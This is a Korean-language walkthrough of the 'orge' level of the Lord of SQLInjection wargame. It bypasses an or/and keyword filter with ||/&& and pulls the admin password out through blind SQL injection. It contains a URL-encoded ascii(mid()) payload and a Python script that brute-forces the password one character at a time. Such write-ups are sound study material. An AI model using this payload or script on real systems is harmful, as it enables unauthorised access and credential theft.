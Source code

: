 <img width="180" alt="스크린샷 2020-01-16 오후 7 07 26" src="https://user-images.githubusercontent.com/54495632/72515580-7d320700-3893-11ea-8ccb-2f66c9e5b24d.png">

7번 ORGE

<img width="663" alt="스크린샷 2020-01-16 오후 7 07 37" src="https://user-images.githubusercontent.com/54495632/72515613-8b802300-3893-11ea-8f95-69eb51d0499a.png">

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
or 과 and 가 필터링 되어있다 -> || &로 대체한다.

앞의 쿼리문을 이용하고 Blind SQL Injection이용하여
pw를 알아내서 알맞은 pw을 입력하면 해결되는 문제이다.
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");

앞에서 나왔던 문제에서 and, or 필터링 조건이 붙은 것 같다.

pw의 length는 구하기가 비교적 간단하여 URL을 이용했고
pw의 값은 파이썬 requests를 이용하여 구하였다.

<img width="699" alt="스크린샷 2020-01-16 오후 7 29 57" src="https://user-images.githubusercontent.com/54495632/72517588-01d25480-3897-11ea-8482-c76621b475cc.png">

<img width="704" alt="스크린샷 2020-01-16 오후 7 30 08" src="https://user-images.githubusercontent.com/54495632/72517600-05fe7200-3897-11ea-89b2-cca41d47e1b8.png">

<img width="691" alt="스크린샷 2020-01-16 오후 7 30 20" src="https://user-images.githubusercontent.com/54495632/72517607-0860cc00-3897-11ea-9f11-f82e67b0b647.png">

다음과 같은 과정을 통해 pw의 길이 = 8임을 알아냈다.

파이썬을 이용해서 pw 값을 구했는데
ascii(substr()) , ascii(mid()) 같은 의미다.

pw=1%27||id=%27admin%27%26%26ascii(mid(pw,1,1))=55%23
ascii(mid(pw,1,1)) -> pw의 index 1부터 1글자의 아스키 코드값 

<img width="726" alt="스크린샷 2020-01-16 오후 7 40 56" src="https://user-images.githubusercontent.com/54495632/72518245-3b578f80-3898-11ea-9465-02c7cc72d75a.png">

<img width="292" alt="스크린샷 2020-01-16 오후 7 44 19" src="https://user-images.githubusercontent.com/54495632/72518465-c6388a00-3898-11ea-9970-b88df90d340e.png">

import requests

cookies={'PHPSESSID':'쿠키값'}
url="https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):
        query="pw=1%27||id=%27admin%27%26%26ascii%28mid%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)



pw =7b751aec를 찾았다.

<img width="693" alt="스크린샷 2020-01-16 오후 7 47 23" src="https://user-images.githubusercontent.com/54495632/72518591-0a2b8f00-3899-11ea-8a0d-193f9b6029de.png">

다음과 같이 pw에 해당 값을 넣어주면 해결된다.